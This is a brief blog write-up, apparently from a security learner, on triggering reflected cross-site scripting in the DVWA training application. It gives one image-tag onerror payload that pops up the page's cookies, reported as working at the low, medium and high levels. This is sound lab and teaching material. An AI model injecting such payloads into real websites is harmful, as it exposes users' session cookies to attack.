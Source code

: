 ```yaml
---
title: "Reflected Cross Site Scripting (XSS) - DVWA"
description: ""
summary: "Trigger an alert pop-up with cookie values using Reflected XSS."
date: 2022-08-17
draft: false
author: "Aftab Sama" # ["Me", "You"] # multiple authors
tags: ["writeups", "challenge", "DVWA", "Reflected XSS"]
canonicalURL: ""
showToc: true
TocOpen: false
TocSide: 'right'  # or 'left'
weight: 10
# aliases: ["/first"]
hidemeta: false
comments: false
disableHLJS: true # to disable highlightjs
disableShare: true
hideSummary: false
searchHidden: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
# UseHugoToc: true
# cover:
#     image: "<image path/url>" # image path/url
#     alt: "<alt text>" # alt text
#     caption: "<text>" # display caption under cover
#     relative: false # when using page bundles set this to true
#     hidden: true # only hide on current single page
# editPost:
#     URL: "https://github.com/"
#     Text: "Suggest Changes" # edit text
#     appendFilePath: true # to append file path to Edit link
---
```



### **Security level: low**

we have name field which is reflecting on page.

payload=`<img src=x onerror="alert(document.cookie)">`

It triggers an alert pop up with cookie value.


### **Security level: medium**

_payload of low level also works here: _

payload=`<img src=x onerror="alert(document.cookie)">`


### **Security level: high**

_payload of low level also works here: _

payload=`<img src=x onerror="alert(document.cookie)">`

Happy Hacking
